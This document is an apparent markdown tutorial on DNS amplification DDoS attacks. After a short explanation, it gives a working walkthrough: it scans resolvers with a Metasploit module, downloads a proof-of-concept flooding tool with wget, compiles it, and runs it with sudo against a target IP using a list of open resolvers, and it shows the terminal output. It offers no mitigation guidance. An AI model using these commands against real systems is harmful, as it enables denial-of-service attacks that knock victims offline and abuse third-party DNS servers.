

# What is DNS Traffic Amplification?
A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an *amplification* attack because it uses DNS responses to upscale the size of the data sent to the victim.

# How does it work?
An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type `ANY` which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.

## Conducting a DNS Traffic Amplification Attack
### Testing a DNS server for attack surface
We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through [Metasploit]() using the module `auxiliary/scanner/dns/dns_amp`.



In the `RHOSTS` you need to put the IP of the name server you want to test. *This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.*

Run the scanner:


### Executing the attack
A simple tool is available only as a proof of concept [here](https://github.com/rodarima/lsi/blob/master/entrega/p2/dnsdrdos.c). You will need to download and then compile it:
```bash
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
```
```bash
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11--  https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’

dnsdrdos.c                                                  100%[========================================================================================================================================>]  14.75K  --.-KB/s    in 0.001s  

2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:
```bash
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------    
dnsdrdos - by noptrix - http://www.noptrix.net/    
-----------------------------------------------

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$
```

The output may be empty, but the packets were sent. You can verify this with `wireshark`:


